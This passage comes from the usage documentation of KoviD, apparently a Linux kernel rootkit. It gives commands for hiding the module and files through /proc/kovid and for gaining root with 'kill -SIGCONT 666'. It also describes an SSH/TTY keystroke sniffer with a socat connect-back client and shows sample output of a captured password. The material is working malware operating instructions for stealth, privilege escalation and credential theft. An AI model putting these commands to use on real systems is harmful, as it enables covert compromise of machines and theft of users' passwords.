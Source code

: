             Hiding:
            ---snip---
            $ echo 'random key' >/proc/kovid
            ---snip---

            You can't rmmod KoviD if it is hidden.


        3.5 Hide/unhide/list files and directories

            Hiding:
            ---snip---
            $ echo '-a name' >/proc/kovid
            ---snip---

            Unhiding:
            ---snip---
            $ echo '-d name' >/proc/kovid
            ---snip---

            Listing hidden files and directory names:
            ---snip---
            $ echo listname >/proc/kovid
            ---snip---

        3.6 Become r00t
            ---snip---
            $ kill -SIGCONT 666
            ---snip---

            'id' will show your new creds, if you prefer an 0ld r00t '#' then 'su'

        3.7 SSH/FTP TTY sniffer

            KoviD can snoop SSH session via tty keystrokes, and steaal passwords and commands.
            It works almost the same as socat connect-back backdoor.

            ---snip---
             $ sudo ./bdclient.sh tty 192.168.0.3 9999
            socat[6722] N listening on AF=2 0.0.0.0:9999
            socat[6722] N accepting connection from AF=2 192.168.0.3:50296 on AF=2 192.168.0.12:9999
            socat[6722] N forked off child process 6729
            socat[6722] N listening on AF=2 0.0.0.0:9999
            socat[6729] N no peer certificate and no check
            socat[6729] N SSL connection using DHE-RSA-AES256-GCM-SHA384
            socat[6729] N SSL connection compression "none"
            socat[6729] N SSL connection expansion "none"
            socat[6729] N using stdout for reading and writing
            socat[6729] N starting data transfer loop with FDs [7,7] and [1,1]
            uid.1000 id
            uid.1000 uname -a
            uid.1000 cat /etc/hosts
            uid.1000 ssh fuckit@192.168.0.55
            uid.1000 myhax0rpass
            ---snip---
